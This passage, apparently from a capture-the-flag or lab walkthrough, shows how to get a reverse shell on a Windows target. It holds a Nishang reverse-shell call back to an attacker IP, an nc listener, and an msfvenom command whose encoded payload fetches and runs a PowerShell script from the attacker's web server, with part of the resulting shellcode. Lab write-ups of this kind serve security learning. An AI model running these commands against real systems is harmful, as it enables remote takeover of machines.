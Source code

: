 So instead, we’ll just use the _windows/exec_ module to download and execute the [Nishang](https://github.com/samratashok/nishang) reverse shell.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, use msfvenom to generate a payload that downloads the PowerShell script and executes it.

```text
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 684 (iteration=0)
x86/unicode_mixed chosen with final size 684
Payload size: 684 bytes
Final size of python file: 3330 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
.....[redacted]
```

Good! The payload size is 684 bytes, so it’s within the limit. Copy the payload and add it in place of the payload included in the exploit.

Start up a python server in the directory that the PowerShell script resides in.
